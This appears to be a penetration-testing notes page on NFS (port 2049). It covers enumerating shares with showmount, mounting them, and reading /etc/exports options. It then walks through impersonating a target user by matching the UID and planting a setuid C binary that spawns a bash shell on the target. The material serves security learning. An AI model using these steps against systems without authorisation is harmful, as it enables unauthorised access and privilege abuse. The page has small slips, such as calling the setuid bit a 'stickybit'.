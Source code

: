 # PORT 2049/tcp - NFS

Network File System is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

## Enumeration

`showmount` gives us the opportunity to know which folder are available for us.

```text
showmount -e <IP>
```

## Mounting the folder

We can mount the folder with `mount` command.

```text
mount -t nfs [-o vers=2] <IP>:<NFS_FOLDER> <LOCAL_FOLDER> -o nolock
```

## Configuration

The file `/etc/exports` show the NFS configuration applied on the server.

```text
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash
```

* rw: Means that we can read and write any file on the share.
* root\_squash \(default\): Maps all the requests from UID/GID 0 to the anonymous UID/GID.
* no\_all\_squash \(default\): Not map all the requests from other UID/GID to the anonymous UID/GID .

{% hint style="info" %}
**Note**: If we have access to the server and a NFS share has this configuration, we can impersonate any user on the attack machine except for the root user.
{% endhint %}

### Impersonate a User \(No Root\)

So what we’ll do is add the user frank \(user to impersonate\) on our kali machine and change his id to 1000 \(Assigned on the target\).

```text
❯ useradd frank
❯ cat /etc/passwd | grep frank
frank:x:1000:1000::/home/frank:/bin/sh
```

{% hint style="info" %}
**Note**: You can change any ID by modifying the `/etc/passwd` file.
{% endhint %}

Next step is create a `setuid.c` file:

```text
#include <unistd.h>
int main()
{
    setreuid(1000,1000);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Then compile it:

```text
gcc setuid.c -o setuid
```

Set the stickybit on the file:

```text
chmod u+s setuid
```

And execute it on the target machine.

## References

* [https://book.hacktricks.xyz/pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)
* [https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/](https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/)

